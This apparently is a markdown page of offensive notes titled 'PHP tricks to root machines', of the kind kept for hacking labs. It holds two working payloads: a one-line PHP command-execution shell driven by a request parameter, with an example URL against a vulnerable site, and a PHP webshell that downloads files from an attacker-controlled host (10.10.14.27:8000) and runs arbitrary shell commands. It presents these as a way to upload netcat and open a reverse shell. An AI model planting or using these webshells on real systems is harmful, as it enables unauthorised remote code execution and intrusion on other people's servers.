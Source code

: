 # PHP tricks to root machines! (file might get divided later)
#### RFI in URL payload

The following code is used to invoke commands through a url. This is done easiest by browsing to the directory
where the file is stored. For example: http://vuln.site/some/place/vuln.php?pwn=whoami. That will execute the command whoami.
A good test is to ping yourself using that command to see that it works since the exploit might be blind meaning that
you will not know if the command executed or not therefore it is smart to ping to your computer while listening to
your interface after icmp packets.
```php 
<?php echo system($_REQUEST['pwn']); ?> 
```
#### Webshell + Webupload only php

The following code is a way to create a webshell on computers without nc (Works on linux too). That shell also has extended
functionality to allow for easy uploading. Meaning you can upload nc.exe and then get a regular reverseshell.

```php
$phpCode = <<<'EOD'                                                                                                                                                                          
                                                                                                                                                                                             
<?php                                                                                                                                                                                        
 if (isset($_REQUEST['upload'])){                                                                                                                                                            
  file_put_contents($_REQUEST['upload'], file_get_contents("http://10.10.14.27:8000/" . $_REQUEST['upload']));                                                                               
};                                                                                                                                                                                           
 if (isset($_REQUEST['exec'])){                                                                                                                                                              
         echo "<pre>" . shell_exec($_REQUEST['exec']) . "</pre>";                                                                                                                            
};                                                                                                                                                                                           
?>                                                                                                                                                                                           
EOD;
```
